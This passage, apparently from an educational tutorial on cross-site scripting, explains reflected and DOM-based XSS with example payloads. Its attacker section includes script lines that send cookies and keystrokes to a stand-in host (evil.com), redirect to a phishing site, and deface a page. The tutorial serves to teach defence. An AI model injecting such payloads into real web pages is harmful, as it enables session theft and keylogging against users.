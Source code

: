 ```html
https://site.com/search?q=<script>alert('XSS')</script>
```

* If the page displays `q` directly, the script runs.

---

### 3️⃣ **DOM-Based XSS**

* The vulnerability is in  **client-side JavaScript** , not the server.
* The script manipulates the DOM using unsanitized data from the URL or user input.

**Example:**

```js
let user = location.hash.substring(1);
document.getElementById("welcome").innerHTML = user;
```

* URL: `https://site.com/#<img src=x onerror=alert(1)>`

---

## 🧨 How Attackers Exploit XSS

* **Steal session cookies** :

```js
  <script>fetch('https://evil.com?c=' + document.cookie)</script>
```

* **Redirect users** :

```js
  <script>location.href='https://phishing.com'</script>
```

* **Keylogging** :

```js
  <script>
  document.onkeypress = e => fetch('https://evil.com?k=' + e.key)
  </script>
```

* **Deface the page** :

```js
  <script>document.body.innerHTML = 'Hacked!'</script>
```

---

## 🔐 How to Prevent XSS

### ✅ 1. Input Validation
